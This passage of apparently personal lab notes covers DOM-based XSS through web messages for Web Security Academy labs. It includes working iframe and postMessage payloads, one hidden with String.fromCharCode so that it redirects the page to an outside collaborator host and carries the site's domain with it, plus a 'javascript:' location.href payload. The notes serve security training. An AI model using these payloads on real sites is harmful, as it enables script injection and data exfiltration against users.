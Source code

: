 ```javascript
postMessage('<img src=x onerror=alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,109,104,55,121,106,109,105,97,55,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)))>')
```

   * Final Payload: (Use in the Exploit Server.)

```javascript
<iframe src="https://0a41005003b5365e82996bf000200091.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,109,104,55,121,106,109,105,97,55,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)))>','*')">
```



<br><br><br>

### Source - Web Messages location.href()

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  Example, the code will place the user-controllable input into the location.href sink, if the message contains the String “http:”. 

    * Example Payload (This can be used in the Browser's Console to test.):

    ```javascript
      window.postMessage(“javascript:alert(1)//http:”)
    ```
    
    * Payload: 

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
<br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
</script>
```

<br>

* Exploitation Payload: (Use document.location to exfiltrate data and encode the payload to bypass filters.)
